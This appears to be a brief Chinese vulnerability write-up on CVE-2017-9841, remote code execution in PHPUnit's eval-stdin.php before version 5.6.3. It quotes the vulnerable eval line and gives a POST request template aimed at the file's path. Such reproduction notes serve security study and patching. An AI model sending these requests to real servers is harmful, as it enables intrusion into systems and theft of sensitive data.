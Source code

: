 # PHPUnit eval-stdin.php 远程命令执行漏洞 CVE-2017-9841 

## 漏洞描述

PHPUnit5.6.3之前的版本，存在一处远程代码执行漏洞，利用漏洞可以获取服务器敏感信息及权限。

## 漏洞影响

> [!NOTE]
>
> PHPUnit < 5.6.3

## 漏洞复现

漏洞位于 /phpunit/src/Util/PHP/eval-stdin.php

其中关键代码为:

```
eval('?>'.file_get_contents('php://input'));
```

发送如下请求包执行PHP代码

```
POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1
Host: 
Content-Length: 21
Accept-Encoding: gzip
```

![](image/php-1.png)

